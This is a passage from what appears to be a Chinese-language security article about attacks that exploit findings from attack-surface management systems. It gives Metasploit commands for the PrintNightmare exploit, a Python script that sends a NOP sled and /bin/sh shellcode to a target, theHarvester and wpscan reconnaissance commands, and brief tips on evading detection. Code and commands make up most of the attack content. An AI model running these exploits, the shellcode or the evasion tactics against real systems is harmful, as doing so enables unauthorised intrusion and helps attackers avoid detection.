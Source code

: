攻击者可以利用攻击面管理系统发现的已知漏洞进行攻击。例如，使用Metasploit框架利用CVE-2021-34527（PrintNightmare）漏洞。

**命令示例：**
```bash
msfconsole
use exploit/windows/smb/cve_2021_34527
set RHOSTS 192.168.1.1
exploit
```

#### 3.2.2 零日漏洞利用

攻击者可能利用攻击面管理系统未检测到的零日漏洞进行攻击。这通常需要定制化的漏洞利用代码。

**代码示例：**
```python
import socket

def exploit(target_ip, target_port):
    payload = b"\x90" * 100 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.send(payload)
    s.close()

exploit("192.168.1.1", 8080)
```

### 3.3 供应链攻击

#### 3.3.1 供应商信息收集

攻击者可以通过攻击面管理系统获取目标组织的供应商信息，并针对这些供应商进行攻击。

**工具示例：**
```bash
theHarvester -d example.com -b all
```

#### 3.3.2 第三方服务攻击

攻击者可以利用攻击面管理系统发现的第三方服务漏洞进行攻击。例如，利用第三方CMS的漏洞。

**命令示例：**
```bash
wpscan --url https://example.com --enumerate vp
```

## 4. 高级利用技巧

### 4.1 绕过检测

攻击者可以使用多种技术绕过攻击面管理系统的检测，例如：

- **IP欺骗**：使用代理或VPN隐藏真实IP地址。
- **流量混淆**：使用加密或混淆技术隐藏攻击流量。
